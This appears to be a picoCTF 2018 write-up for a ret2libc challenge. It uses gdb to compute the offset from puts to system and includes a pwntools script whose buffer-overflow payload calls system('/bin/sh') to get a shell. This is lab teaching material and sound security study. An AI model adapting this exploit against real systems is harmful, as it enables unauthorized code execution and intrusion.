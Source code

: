 Basically, we are given a list of important addresses that are random each time (because of [aslr](https://en.wikipedia.org/wiki/Address_space_layout_randomization)). Our goal would be to open up a shell on the server. The convenient part is that the string `"/bin/sh"` is already in memory ready to be used.

Our plan is to first find the address of the `system` libc function and then call the function with the argument `"/bin/sh"` (read my writeup on [buffer overflow 2](#buffer overflow 2) if you don't know how to pass arguments to a function by manipulating the stack).

Although the address of `system` is different each time, the difference between the address of another libc function (`puts` in this case) and the address of `system` is always the same. We can use `gdb` to find both addresses and calculate the offset:

```
alanc@pico-2018-shell-2:/problems/got-2-learn-libc_4_526cc290dde8d914a30538d3d0ac4ef1$ gdb ./vuln
...
(gdb) break main
Breakpoint 1 at 0x812
(gdb) run
Starting program: /problems/got-2-learn-libc_4_526cc290dde8d914a30538d3d0ac4ef1/vuln

Breakpoint 1, 0x565f2812 in main ()
(gdb) print &system
$1 = (<text variable, no debug info> *) 0xf75be940 <system>
(gdb) print &puts
$2 = (<text variable, no debug info> *) 0xf75e3140 <puts>
(gdb)
```

Now with both addresses, we can see that the offset is `0xf75be940 - 0xf75e3140` or `-149504`. With the offset in hand, we can call the `system` function using a buffer overflow provided by the `gets` call and retrieve the flag:

```python
from pwn import *

sh = process('./vuln')

system_offset = -149504

print sh.recvuntil(':\n').split('\n')

info = sh.recvuntil(':\n').split('\n')

puts_plt = int(info[1].split(': ')[1][2:], 16)

sh_str = int(info[5].split(': ')[1][2:], 16)

system_plt = puts_plt + system_offset

payload = 'a'*(148+12)

payload += p32(system_plt)
payload += 'a'*4
payload += p32(sh_str)

sh.sendline(payload)

sh.interactive()
```
